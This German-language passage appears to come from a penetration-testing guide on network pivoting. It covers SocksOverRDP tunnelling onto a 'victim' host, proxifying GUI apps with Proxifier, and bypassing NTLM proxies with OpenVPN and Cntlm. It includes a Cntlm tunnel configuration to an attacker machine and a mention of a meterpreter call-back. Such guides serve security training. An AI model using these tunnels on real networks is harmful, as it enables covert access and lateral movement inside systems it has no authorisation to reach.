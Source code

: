 Laden Sie in Ihrem Client-Computer **`SocksOverRDP-Plugin.dll`** wie folgt:
```bash
# Load SocksOverRDP.dll using regsvr32.exe
C:\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
```
Jetzt können wir über **RDP** mit der **Opfer** über **`mstsc.exe`** **verbinden**, und wir sollten eine **Aufforderung** erhalten, die besagt, dass das **SocksOverRDP-Plugin aktiviert ist**, und es wird auf **127.0.0.1:1080** **lauschen**.

**Verbinden** Sie sich über **RDP** und laden Sie die `SocksOverRDP-Server.exe`-Binärdatei auf der Opfermaschine hoch und führen Sie sie aus:
```
C:\SocksOverRDP-x64> SocksOverRDP-Server.exe
```
Jetzt bestätigen Sie auf Ihrer Maschine (Angreifer), dass der Port 1080 lauscht:
```
netstat -antb | findstr 1080
```
Jetzt können Sie [**Proxifier**](https://www.proxifier.com/) **verwenden, um den Datenverkehr über diesen Port zu proxyen.**

## Windows GUI-Apps proxifizieren

Sie können Windows GUI-Apps dazu bringen, über einen Proxy zu navigieren, indem Sie [**Proxifier**](https://www.proxifier.com/) verwenden.\
In **Profil -> Proxy-Server** fügen Sie die IP und den Port des SOCKS-Servers hinzu.\
In **Profil -> Proxifizierungsregeln** fügen Sie den Namen des Programms hinzu, das proxifiziert werden soll, und die Verbindungen zu den IPs, die Sie proxifizieren möchten.

## NTLM-Proxy-Umgehung

Das zuvor erwähnte Tool: **Rpivot**\
**OpenVPN** kann dies ebenfalls umgehen, indem Sie diese Optionen in der Konfigurationsdatei festlegen:
```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```
### Cntlm

[http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

Es authentifiziert sich gegen einen Proxy und bindet einen lokalen Port, der an den externen Dienst weitergeleitet wird, den Sie angeben. Dann können Sie das Tool Ihrer Wahl über diesen Port verwenden.\
Zum Beispiel, um Port 443 weiterzuleiten.
```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```
Jetzt, wenn Sie beispielsweise im Opfer den **SSH**-Dienst so einstellen, dass er auf Port 443 lauscht. Sie können sich über den Angreifer-Port 2222 mit ihm verbinden.\
Sie könnten auch einen **meterpreter** verwenden, der sich mit localhost:443 verbindet und der Angreifer auf Port 2222 lauscht.

